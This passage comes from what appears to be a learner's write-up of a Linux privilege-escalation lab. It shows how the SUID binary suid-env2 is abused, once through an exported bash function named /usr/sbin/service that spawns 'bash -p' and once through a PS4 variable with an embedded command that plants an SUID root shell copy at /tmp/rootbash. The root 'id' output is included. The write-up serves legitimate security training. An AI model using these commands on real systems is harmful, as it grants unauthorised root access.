### ***Like this***:
```
$ function /usr/sbin/service { /bin/bash -p; }
```
> Defining shell function....

### Step2: 
***Exporting the created function*** to `avoid execution` of the `actual executable`
```
$ export -f /usr/sbin/service
```

Result:
```
$ /usr/local/bin/suid-env2

root@debian:~# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)

root@debian:~# whoami
root

```

### Now, the `Question` comes:

1. `/bin/bash -p` --> what is `-p` ??  \
_---> Due to a reason related to_ `real userid` and `effective userid` ---> ***Learn more abt it***

2. `export -f` --> what is `-f` ?? 
```
-f -->  It must be used if the names refer to functions. 
        If -f is not used, the export will assume the names are variables.
```
see: [geeksforgeeks](https://www.geeksforgeeks.org/export-command-in-linux-with-examples/)


## Task15:  SUID / SGID Executables - Abusing Shell Features (#2)


### Applicable for Bash versions < 4.4

When in `debugging mode`, Bash uses the `environment variable PS4` to display an extra prompt for debugging statements.

Run the `/usr/local/bin/suid-env2` executable with `bash debugging enabled` and the `PS4 variable` set to an `embedded command` which creates an SUID version of /bin/bash:
### Step1:
```
$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```
